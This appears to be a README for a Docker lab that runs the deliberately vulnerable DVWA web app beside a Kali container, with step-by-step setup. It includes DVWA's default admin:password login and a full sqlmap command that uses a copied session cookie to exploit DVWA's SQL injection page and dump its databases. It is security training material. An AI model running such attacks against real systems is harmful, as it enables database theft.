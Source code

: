 # How to run and hack DVWA using Docker
1. Install Docker client
1. Run `docker-compose up` from a terminal
1. Navigate to `http://localhost/index.php`
1. Login with default DVWA credentials admin:password
1. Navigate to `http://localhost/setup.php` and click on the `Create / Reset Database` button
1. Login again at `http://localhost/index.php` using the same default credentials admin:password
1. Open the web developer tools and copy the value of PHPSESSID cookie
1. Run `docker container ls` to identify the kali container image name running (e.g. _kali-docker-test_kali_) and the dvwa container name (e.g. _kali-docker-test_dvwa_1_)
1. Run `docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' kali-docker-test_dvwa_1` to identify the ip of the dvwa container 
1. Open a new terminal and run `docker exec -ti kali-docker-test_kali_1 /bin/zsh`
1. From Kali, run `sqlmap --random-agent -u "http://<DVWA_IP>/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low;PHPSESSID=<SESSION_ID_COOKIE>" --level=5 --risk=3 -p id -a` and follow the instructions to dump the databases from DVWA
1. Go to the location `/root/.local/share/sqlmap/output/` to identify the dump from the attack
1. In a different terminal run `docker-compose down` to shutdown the lab